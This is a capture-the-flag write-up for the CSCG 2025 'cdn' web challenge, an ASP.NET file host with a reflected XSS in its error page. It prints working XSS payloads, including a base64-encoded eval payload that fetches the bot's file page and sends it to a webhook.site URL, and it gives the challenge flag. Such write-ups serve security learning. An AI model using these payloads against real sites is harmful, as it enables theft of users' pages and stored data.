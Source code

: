 ```yaml
---
title: cdn - CSCG 2025 - Write-Up
date: 2025-04-24 10:06:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [web,js,xss,cyberpunk]
description: Another XSS vulnerability to exploit.
image:
  path: /assets/blog/cdn/cdn.png
  alt: CSCG image
---
```


This is the a write-up for the last web challenge (the one with the fewest solves) `cdn` of the CSCG 2025. The challenge was created by `NoRelect` and is rated as Medium.
## Description

Description of the challenge:
> Diary Entry: February 10, 2080
> 
> Another day in the wasteland of enterprise software. The neon skyline flickers outside my window, but inside this concrete bunker of a cubicle, it's just me, an aging keyboard, and a .NET Framework project that refuses to die. I don't know how we got here. The world outside runs on quantum distributed neural meshes, but here I am, hammering away at legacy C# code in an IDE that barely runs on this salvaged hardware. Mono is the only thing keeping this fossil alive, and even that is held together with digital duct tape and the tears of developers long past. The system is ancient, predating even my grandparents. But the Corp won't let us move it. "Too much risk" they say. "Legacy compatibility" they insist. They don't see the warnings flashing in the logs like distress beacons in deep space. Reflection errors. Memory leaks. A garbage collector that might as well be a janitor sweeping an endless hallway of digital debris.

For this application you are provided with a massive amount of ASP.Net code, the code really shocked me, but actually I solved the challenge completely without looking at the code. The application is a simple file host application, it allows you to register an account. The application provides you with a simple UI to upload files and download them, although the files are not accessible via a URL in a CDN system.

## Vulnerability

The vulnerability is connected with how the application responds to errors. If the application detects any values which may be malicious it will respond with a page which will view these parameters, the issue is that these parameters are rendered that way, so they are displayed on the page. You can test that by injecting a simple XSS payload beginning like `?x=<img` asa parameter to your request query. The wep page will treat this image tag as the image and you have **Cross Site Scripting (XSS)**.

![](/assets/blog/cdn/error.png)

### Rabbit hole, another XSS

There is actually a second vulnerability in this application. This vulnerability can not be used to exploit the bot but it still exists. The vulnerability is that you can upload a file with a XSS payload as the file name. The file name will display the file for you which results in the execution of the XSS payload.

## Exploit 

The first issue while building a exploit payload is, that you may encounter is that the payload so the value of a parameter will be cut of.

For example if you inject `/?x=<img src=1 onerror=alert(1) />` as the payload to the page, you will be presented with the HTML:

```
<img src=1 oner...").
```

This can be solved by using the parameter name instead of the value as the payload. With using `/%3Cimg%20src%3D1%20onerror%3Dalert%281%29%20%2F%3E%20=<img` as the payload the page successfully responds with an alert.

**Note:** To make the malicious warning appear, there must be a dangerous tag inside the value of the payload/parameter, otherwise the page will return the usual page.

![](/assets/blog/cdn/alert.png)

The last step is to build a working final payload, for that you can use again like in the [Air-Smeller](/posts/Air-Smeller/) challenge [webhooks.site](https://webhook.site/), which provides you with a short URL.

The flag is uploaded to the page using the pages file upload function (this is a extract from the bots code):

```js
 await page.goto(cdnUrl + '/Files.aspx', {
        waitUntil: 'networkidle0',
    });
    const elementHandle = await page.$("#ctl00_MainContent_FileUpload1");
    await elementHandle.uploadFile('/tmp/flag.txt');
```

The files are rendered on the `/Files.aspx` page using this code:
```html
<li>
    <asp:HyperLink
        CssClass="cyberpunk blue"
        NavigateUrl='<%# Eval("Data") %>' 
        Text='<%# Eval("FileName") %>' 
        runat="server"/>
</li>
```

In the provided code, it's notable that files are encoded using Base64 and stored as strings. The format includes a specific data prefix. This format is designed to be utilized within the `NavigateUrl`.

```cs
var data = new FileData
{
    FileName = this.FileUpload1.FileName ?? "default-filename.bin",
    Data = "data:application/octet-stream;base64," + Convert.ToBase64String(this.FileUpload1.FileBytes)
};
```

So summarized: The files are the URL itself. This makes exploiting the XSS vulnerability effectively easier, becuase you only need to send the `/Files.aspx` page of the bot to our webhook. If the file would be stored at a separate URL you would need to first read the page and then request the URL.

I used a similar payload like in the Air Smeller Room, this is because it's just handy.

1. I build a short fetch JS script which would fetch the `/Files.aspx` page.
```js
fetch("/Files.aspx").then(r=>r.text()).then(j=>fetch("https://webhook.site/fe0c905f-7ac4-46cf-a78c-2ad0b44ae662?x="+btoa(j)));
```
2. Base64 encoded it and pasted it into the URL:
```
/Files.aspx?%3Cscript%3Eeval(atob(%22ZmV0Y2goIi9GaWxlcy5hc3B4IikudGhlbihyPT5yLnRleHQoKSkudGhlbihqPT5mZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvZmUwYzkwNWYtN2FjNC00NmNmLWE3OGMtMmFkMGI0NGFlNjYyP3g9IitidG9hKGopKSk7Cg%3D%3D%22))%3C/script%3E=%3Cimg
```

This payload worked for me in the local browser, so I submitted it to the reports page.

Eventually you will receive the full page as a payload on your web hook.

**Flag:**

```
dach2025{juni0r_d3v_c00k3d_up_s0me_0ld_t3chn0logi3s!127389}
```